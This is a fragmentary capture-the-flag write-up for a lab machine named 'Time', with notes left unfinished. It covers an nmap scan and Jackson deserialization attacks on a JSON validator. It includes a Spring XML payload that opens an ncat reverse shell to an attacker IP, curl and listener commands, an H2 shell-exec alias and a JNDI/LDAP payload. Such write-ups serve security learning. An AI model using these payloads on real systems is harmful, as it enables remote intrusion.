








# Time writeup by XMBomb
```
# Nmap 7.91 scan initiated Fri Dec 11 17:16:02 2020 as: nmap -v -sC -sV -Pn -oN nmap 10.10.10.214
Nmap scan report for 10.10.10.214
Host is up (0.097s latency).
Not shown: 977 closed ports
PORT      STATE    SERVICE       VERSION
80/tcp    open     http          Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 7D4140C76BF7648531683BFA4F7F8C22
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
683/tcp   filtered corba-iiop
990/tcp   filtered ftps
1000/tcp  filtered cadlock
1039/tcp  filtered sbl
1059/tcp  filtered nimreg
1063/tcp  filtered kyoceranetdev
1064/tcp  filtered jstel
1131/tcp  filtered caspssl
1145/tcp  filtered x9-icue
2013/tcp  filtered raid-am
2557/tcp  filtered nicetec-mgmt
3889/tcp  filtered dandv-tester
3945/tcp  filtered emcads
5190/tcp  filtered aol
5431/tcp  filtered park-agent
6156/tcp  filtered unknown
8290/tcp  filtered unknown
20828/tcp filtered unknown
21571/tcp filtered unknown
49152/tcp filtered unknown
50006/tcp filtered unknown
57294/tcp filtered unknown

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec 11 17:17:16 2020 -- 1 IP address (1 host up) scanned in 74.92 seconds
```
Nmap reveals a website running. Visiting it gives us a web-app to format json. It also supports validation, but immediately crashes with a valid json of '{}'

The error is
```
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```
Jackson is a Java JSON decoding library, could be a possible injection point.

As it's http, it makes sense to run a dirsearch against it in the background:
```
/opt/dirsearch/dirsearch.py -u http://10.10.10.214/ -E --plain-text-report=scan
```

there seems to be a login as well, visiting it just brings us to another page that seems to look the same


Googling for "jackson exploit" yields this
https://github.com/jault3/jackson-databind-exploit

let's clone it and see if the target is vulnerable:
```bash
git clone https://github.com/jault3/jackson-databind-exploit
```
We need to make some adjustments to the two files


I've changed them to reflect my machine
exploit.json
```json
{
    "id":123,
    "obj": [
        "org.springframework.context.support.FileSystemXmlApplicationContext",
        "http://10.10.14.6:8000/spel.xml"
    ]
}
```
spel.xml
```xml
<beans xmlns="http://www.springframework.org/schema/beans"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="
     http://www.springframework.org/schema/beans
     http://www.springframework.org/schema/beans/spring-beans.xsd
">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
     <constructor-arg>
        <list value-type="java.lang.String">
            <value>/usr/local/bin/ncat</value>
            <value>10.10.14.6</value>
            <value>4444</value>
            <value>-e</value>
            <value>/bin/bash</value>
        </list>
     </constructor-arg>
  </bean>
</beans>
```

```bash
# start server in cloned folder, hosts spel.xml
python3 -m http.server 8000
# start nc listener
nc -lvnp 4444

curl -i -XPOST -H 'Content-Type: application/json' http://10.10.10.214/ -d @exploit.json
```


https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#jackson-json

```bash
git clone https://github.com/mbechler/marshalsec
mvn clean package -DskipTests
```


Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.InvalidDefinitionException: Invalid type definition for type `com.sun.rowset.JdbcRowSetImpl`: Illegal type (com.sun.rowset.JdbcRowSetImpl) to deserialize: prevented for security reasons


https://github.com/FasterXML/jackson-databind/blob/master/src/main/java/com/fasterxml/jackson/databind/jsontype/impl/SubTypeValidator.java




https://blog.doyensec.com/2019/07/22/jackson-gadgets.html


```
cat class-requests | grep "<pre>" > class-responses.txt
```




https://blog.doyensec.com/2019/07/22/jackson-gadgets.html
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('id > exploited.txt')
```




http://h2-database.66688.n3.nabble.com/With-LOCK-MODE-0-log-file-still-has-hundreds-of-locks-td4034738.html

```
["ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"ldap://10.10.14.16:1389/Exploit"}]
```


https://github.com/ozkanbilge/Jackson-RCE


```
git clone https://github.com/conikeec/jackspoilt.git
cd jackspoilt
mvn package
Start application server : java -jar target/jackspoilt-1.0-SNAPSHOT.jar

mvn exec:java -D"exec.mainClass"="EncodeExploit"
```